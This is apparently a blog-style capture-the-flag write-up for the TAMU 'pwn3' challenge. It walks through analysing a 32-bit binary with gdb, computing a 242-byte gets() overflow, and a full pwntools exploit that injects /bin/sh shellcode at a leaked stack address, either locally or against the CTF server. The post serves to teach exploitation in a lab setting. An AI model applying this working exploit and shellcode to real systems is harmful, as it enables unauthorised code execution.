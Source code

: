 # pwn3

For pwn3 let's start how we always do and get this binary into our Linux VM to take a look at it!  As always we are going to start with the three commands file, strings, and gdb's checksec.

```
user@ubuntu:~/TAMU$ file pwn3
pwn3: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=5b8bcbe552d4097fbb9a1fe8612c45cfec687a01, not stripped
```
```
user@ubuntu:~/TAMU$ strings pwn3
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
gets
puts
printf
stdout
setvbuf
__libc_start_main
__gmon_start__
GLIBC_2.0
```
```
gdb-peda$ checksec
CANARY : disabled
FORTIFY : disabled
NX : disabled
PIE : disabled
RELRO : Partial
```

So we can see from these three commands that we have a 32-bit ELF style Linux executable.  We can see the gets command at the top of the strings file but no other hints there.  And from checksec we can see that most protections are disabled.

Now, let's run the file to see what it does!

![imag](https://killyp.com/wp-content/uploads/2018/03/Capture.jpg)

So, this looks like a repeat of the pwn2 problem except there will not be a deprecated print_flag function when we open it in IDA.  Also, that random number looks a whole lot like an address on the Stack.  I would bet this problem has ASLR and that is a hint, but we will verify this in gdb.  So let's open it in IDA and see if we can find that "_gets" call we saw in the strings dump.

![ida](https://killyp.com/wp-content/uploads/2018/03/Capture-1.jpg)

Just like I suspected, there is no print_flag function just hanging out and the _gets call with no bounds checking is used to grab the user input.  We can almost certainly exploit this to gain control of the instruction pointer.  Now, run it in gdb to verify that random number is on the stack and to exploit the gets vulnerability.  After we get it open in gdb set a break-point at the leave instruction in the Echo function and then throw a bunch of "A"s at stdin.

```
gdb-peda$ b *0x08048520
Breakpoint 1 at 0x8048520
gdb-peda$ r
Starting program: /home/user/TAMU/pwn3 
Welcome to the New Echo application 2.0!
Changelog:
- Less deprecated flag printing functions!
- New Random Number Generator!

Your random number 0xffffce1a!
Now what should I echo? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, at 0x08048520 in echo ()

gdb-peda$ x/x $ebp
0xffffcf08: 0xffffcf18

gdb-peda$ x/64xw $esp
0xffffce10: 0x00000001 0xf7fb7da7 0x41410001 0x41414141
0xffffce20: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffce30: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffce40: 0x41414141 0x41414141 0x41414141 0x41414141
0xffffce50: 0x41414141 0x41414141 0xf7ff0041 0xf7fb7d60
0xffffce60: 0x00000001 0x0000000a 0xf7fb8870 0xf7e6f12d
0xffffce70: 0xf7fb7d60 0x08048660 0xf7fb7d60 0xf7e6f47b
0xffffce80: 0xf7fb7d60 0xf7fb7da7 0x00000001 0xf7e6f3ac
0xffffce90: 0xf7fb7000 0xf7fb7d60 0xf7fb8870 0xf7e6fe12
0xffffcea0: 0xf7fb7d60 0x0000000a 0x00000000 0xf7fb7000
0xffffceb0: 0xf7e6fdd7 0xf7fb7000 0x00000055 0xf7e64dfb
0xffffcec0: 0xf7fb7d60 0x0000000a 0x00000055 0x0000bf17
0xffffced0: 0xf7fe77eb 0xf7e04700 0x00000000 0xf7fb7d60
0xffffcee0: 0xffffcf18 0xf7fee010 0xf7e64cab 0x00000000
0xffffcef0: 0xf7fb7000 0xf7fb7000 0xffffcf18 0x08048564
0xffffcf00: 0x08048660 0x00000002 0xffffcf18 0x0804856c
```


Alright!  So what important information can we get out of that?  We can see that, indeed, the random number they gave us is the location on the stack that our input begins at.  Since the location on the stack that our input is being saved to is randomized, we can safely assume that ASLR is enabled.  This would normally be an inconvenience if our goal was to execute shellcode on the stack but since they tell us where it is at every time, we can use this information to execute on the stack.  We can also tell the size of the buffer by subtracting the location of our input from the current $ebp.  Also, be aware that even though ASLR is turned on and randomizing the addresses on the stack, it is only randomizing the base address. This means that the difference between addresses on the stack will be the same every time.

The location of our $ebp (0xffffcf08) minus the location of our input (0xffffce1a) gives us a buffer size of 0xEE.  Add 4 to this to account for the old saved $ebp register and our overflow needs to be 0xF2, 242 decimal, bytes long.

Our goal, with this exploit, is to read the flag.txt file that is in the same directory as the binary we are attacking.  To do this we will spawn a remote shell in that directory by having the binary execute our shellcode.  If you are unfamiliar with shellcode, it is essentially compiled assembly code that tells the system to do something (usually spawn a shell).  It is special in that it needs to avoid certain bytes such as any NULL bytes.  This is because strings are NULL terminated and our shellcode is being read in as stdin into a string.  While reading in our exploit, if it comes across a NULL byte it will stop reading in and we won't have loaded our full exploit. This is important to know if you write your own shellcode (which I highly recommend you practice) but for this example, we will just grab one off of shellstorm that will execve /bin/sh so we get a shell.

The layout of our exploit will be:

shellcode + A's to fill remaining overflow + address to shellcode

To build our exploit we will use the python library, pwntools.  This library is fantastic when it comes to writing quick exploits and takes out all of the network programming usually needed for a remote exploit.

Our python exploit then ends up looking like this:

[python]
#!/usr/bin/env python
import pwn
import time
import sys


# Constants
BUFFERSIZE = 242
SHELLCODE = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\xC3"
OVERFLOW = "A" * (BUFFERSIZE - len(SHELLCODE))

def usage():
    print "Usage: %s [FLAGS]" % sys.argv[0]
    print "\nFLAG\t\t\tOption"
    print "-l\t\t\tLocal (Default)"
    print "-r\t\t\tRemote\n"
    return

def setup(argv = ""):
    #Local Exploit
    if argv == "-l" or argv == "":
        r = pwn.process("./pwn3")

    #Remote Exploit
    elif argv == "-r":
        r = pwn.remote("pwn.ctf.tamu.edu", 4323)

    #Usage not correct
    else:
        usage()
        return

    #Build Payload and EXPLOIT!!!
    exploit(r, buildPayload(r))

def buildPayload(r):
    # Build payload
    payload = ""
    payload += SHELLCODE		# Add Shellcode
    payload += OVERFLOW			# Add overflow of 'A'
    payload += getStackAddress(r)	# Parse address and add to payload
    return(payload)

def getStackAddress(r):
    r.recvuntil('0x')
    address = r.recvuntil('!')		# Address with exclamation
    address = address.split('!')[0]	# Strip exclamation off of address
    address = int(address, 16)		# Convert from string to hex integer
    address = pwn.p32(address)		# Pack into Little Endian address string
    return(address)

def exploit(r, payload):
    r.recv()				# Revieve until prompted for input
    r.sendline(payload)			# Send our payload (stackoverflow and ROPChain)
    r.interactive()			# Keep the shell alive with Interactive command

if __name__ == "__main__":
    if len(sys.argv) > 2:
        usage()
    elif len(sys.argv) == 2:
        setup(sys.argv[1])
    else:
        setup()

[/python]
So let's run it!
![exploit](https://killyp.com/wp-content/uploads/2018/03/Capture-2.jpg)
